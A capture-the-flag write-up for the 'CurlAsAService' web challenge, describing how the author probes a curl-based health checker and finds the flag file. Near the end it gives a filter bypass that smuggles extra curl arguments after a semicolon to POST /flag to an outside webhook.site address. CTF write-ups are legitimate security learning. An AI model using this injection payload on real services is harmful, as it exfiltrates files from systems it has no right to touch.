







# Web - CurlAsAService

## Description
> cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.

## Walkthrough

For this web challenge, we had an online instance and the challenge code.

I first looked at the website normally in browser.

We see this page __Health Checker 9000__ which is probably meant to check if a service / website is active.

The whole thing is apparently done with `curl`.

Brought to the preset URL `http://127.0.0.1` we get to see the following.

Now we have retrieved our own page internally on the localhost.

External page calls also work as demonstrated here with `http://example.org`.

Ok, so far so good, but we want the flag.

Let's first see where it is in the challenge files.

`tree web_caas`

The flag is located in a file under `/flag`.

 
 

## Bypass

I experimented a bit with the application and tried to find a bypass.

Some attempts failed and I got __Illegal Characters Detected__ as output only.

I also tried to change curls protocols like `ftp://`, `file://` and so on, but this did not work.

With a seimicolon `;` I found a bypass that worked.

__Bypass:__ `http://no.local/ ; https://webhook.site/<ID> -d @/flag`.

I was able to do the query twice with a semicolon using curl and was able to send the flag `-d` and the `@` character files via POST and sent the flag to me to [webhook.site](https://webhook.site).

